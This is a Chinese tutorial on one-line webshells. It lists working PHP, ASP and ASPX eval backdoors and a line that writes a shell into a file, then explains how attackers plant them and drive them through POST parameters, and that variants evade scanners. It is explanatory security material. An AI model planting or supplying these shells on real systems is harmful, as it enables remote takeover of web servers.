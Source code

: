 

一些不同脚本语言的一句话木马



```
php一句话木马：  <?php @eval($_POST[value]); ?>      
asp一句话木马：  <%eval request ("value")%> 或  <% execute(request("value")) %>         
aspx一句话木马： <%@ Page Language="Jscript" %> <% eval(Request.Item["value"]) %>       
<?php fputs( fopen('xie.php','w') , '<? php eval($_POST[xie]) ?>' ) ; ?>      
将当前目录下创建xie.php文件，并且将一句话木马写入xd.php中
```




### 一句话木马原理 



拿php的一句话木马说明一下原理：



在PHP脚本语言中，eval(code) 的功能是将 code 组合成 php 指令，然后将指令执行，其他语言中也是使用此原理，只是函数可能不同。



```
<?php $a="phpinfo()"; eval("$a;");?>   #就相当于执行 phpinfo（); 语句。
```




当利用web中的漏洞将<?php @eval($\_POST\[value\]);?> 一句话插入到了可以被黑客访问且能被web服务器执行的文件中时，那么我们就可以向此文件提交post数据，post方式提交数据的参数就是这个一句话中的 value，它就称为一句话木马的密码。这样提交的数据如果是正确的php语言的语句，那么就可以被一句话木马执行，从而达到黑客的恶意目的。



介绍了一句话木马的原理后，我们再来说下它的优缺点：



****优点****：短小精悍，功能强大。



****缺点********：****容易被安全软件检测出来。为了增强隐蔽性，也出现了各种一句话木马的变形。



### 一句话木马的变形



黑客的目的，就是想尽办法给目标网站插入一句话木马，可以是一个单独的 .asp 或者是 .php，.aspx 文件，或者是隐藏在某些网页下。



在上边的例子中，php 文件很明显的 eval 可以成为一个静态特征码，webshell扫描工具可以以此为关键词，扫描到这种木马加以屏蔽。



JSP后门脚本

-------


